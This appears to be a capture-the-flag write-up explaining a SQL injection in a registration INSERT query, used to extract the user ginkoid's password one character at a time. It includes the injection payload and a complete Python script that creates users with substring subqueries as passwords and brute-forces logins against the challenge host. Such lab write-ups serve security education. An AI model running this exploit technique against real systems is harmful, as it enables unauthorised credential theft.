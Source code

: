 ```python
```

The injectable query is an `INSERT` statement. One thing to note is that the password must be less than 50 characters long, thus limiting the length of our SQL injection. The process to extract ginkoid's password is the following:

1. Create a new user with any username and a password that is one character of ginkoid's password at some index i, starting with i=0.
    - This can be done by injecting a sub-query that selects ginkoid's password from the `user` table and taking a substring at index i of length 1.
    - The following injection works to create the password `'||(SELECT substr(password,1,1) FROM users))--`.
2. Do a blind SQL injection on the newly created user. Iterate through each alphanumeric character and try to log in. When you log in successfully, you know the character that is at index i of ginkoid's password.
3. Repeat this process 32 times, incrementing i by 1 each time. Gradually extract ginkoid's password one character at a time.

I wrote the following script to automate this process:

```python
import requests

allowed_chars = list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789')

def main():
	user_prefix = "deadbeef"
	endpoint = "https://cool.mc.ax/"

	password = ""

	for i in range(1,33):
		current_user = user_prefix + allowed_chars[i]

		print("creating user " + current_user)

		obj = {
			'username': current_user,
			'password': f"'||(SELECT substr(password,{i},1) FROM users))--"
		}
		ret = requests.post(endpoint + "register", data=obj)

		j = 0
		while (True):
			obj2 = {
				'username': current_user,
				'password': allowed_chars[j]
			}
			login_ret = requests.post(endpoint, obj2)

			if "You are logged in!" in login_ret.text:
				password += allowed_chars[j]
				print(password)
				break

			j += 1

main()
```
